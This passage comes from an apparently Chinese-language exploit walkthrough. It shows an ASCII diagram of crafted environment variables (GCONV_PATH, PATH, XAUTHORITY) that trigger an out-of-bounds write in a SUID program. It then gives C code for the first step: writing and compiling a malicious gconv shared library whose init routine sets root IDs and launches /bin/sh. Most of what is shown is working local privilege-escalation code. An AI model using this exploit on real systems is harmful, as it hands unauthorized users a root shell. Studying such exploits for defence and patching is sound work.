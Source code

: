 ```
│          "XAUTHORTIY=../LOL",       │          │    Of course we found it.                       │  │
│          NULL})                     │          │                                                 │  │
│                                     │          │ 3. triggered out-of-bound write                 │  │
└─────────────────────────────────────┘          │      envp={"GCONV_PATH=./lol", ─────────┬───────┼──┘
                                                 │            "PATH=GCONV_PATH=.",         │       │
                                                 │            "LC_MESSAGE=en_US.UTF-8",    │       │
                                                 │            "XAUTHORITY=../LOL',         │       │
                                                 │            NULL})                       │       │
                                                 │                                         │       │
                                                 │ 4. triggered `g_printerr()` before `encclear()` │
                                                 │    via "XAUTHORITY" variable                    │
                                                 │                                                 │
                                                 └─────────────────────────────────────────────────┘
```

### 一、准备恶意gconv

第一步，准备编译恶意的 gconv 共享库。这个恶意程序本身也是一个 SUID 程序，在 `setuid()` 等调用之后，通过 `execve()` 为我们启动一个 shell：

```c
void compile_so() {
    FILE *f = fopen("payload.c", "wb");
    if (f == NULL) {
        fatal("fopen");
    }

    char so_code[]=
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n"
        "void gconv() {\n"
        "  return;\n"
        "}\n"
        "void gconv_init() {\n"
        "  setuid(0); seteuid(0); setgid(0); setegid(0);\n"
        "  static char *a_argv[] = { \"sh\", NULL };\n"
        "  static char *a_envp[] = { \"PATH=/bin:/usr/bin:/sbin\", NULL };\n"
        "  execve(\"/bin/sh\", a_argv, a_envp);\n"
        "  exit(0);\n"
        "}\n";

    fwrite(so_code, strlen(so_code), 1, f);
    fclose(f);

    system("gcc -o payload.so -shared -fPIC payload.c");
}
```
